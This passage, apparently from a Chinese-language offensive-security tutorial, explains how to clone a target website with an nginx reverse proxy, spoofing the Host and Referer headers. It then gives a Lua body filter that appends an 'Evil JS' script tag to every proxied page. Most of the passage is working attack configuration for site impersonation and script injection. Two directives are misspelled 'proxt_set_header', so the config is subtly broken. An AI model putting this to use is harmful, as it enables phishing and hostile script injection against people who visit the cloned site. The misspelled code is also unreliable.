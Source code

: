 根据这个实例，可以直接写下第一部分，反向代理的配置了：

```
location / {
    proxy_pass http://www.example.com/link/;
}
```

访问根目录就等同于访问`http://www.example.com/link/`。

这里可能会产生一个问题，如果目标Web服务器对Host进行了判断，那么反向代理可能不会成功，因此需要将完美克隆的目标Host进行设置。

```
worker_processes  1;

error_log  logs/error.log error;    # 日志级别

events {
    worker_connections  1024;
}

http {
    server {
        listen    80;
        server_name example-1.com;
        location / {
            proxy_pass http://www.example.com/link/;
            proxt_set_header Host www.example.com;
            proxt_set_header Referer http://www.example.com/link/;
        }
    }
}
```

至此，就能完美克隆目标网站了。

## 0x03 注入模块化的Evil JS

使用`body_filter_by_lua_block`可以对网站内容进行修改，利用好这个功能，就能将JS文件引入到页面中。

```
header_filter_by_lua_block { ngx.header.content_length = nil}
                body_filter_by_lua_block{
                        local chunk, eof = ngx.arg[1], ngx.arg[2]
                        local buffered = ngx.ctx.buffered
                        if not buffered then
                           buffered = {}
                           ngx.ctx.buffered = buffered
                        end
                        if chunk ~= "" then
                           buffered[#buffered + 1] = chunk
                           ngx.arg[1] = nil
                        end
                        if eof then
                           local whole = table.concat(buffered)
                           ngx.ctx.buffered = nil
                           whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"
                           ngx.arg[1] = whole
                        end
                }

```
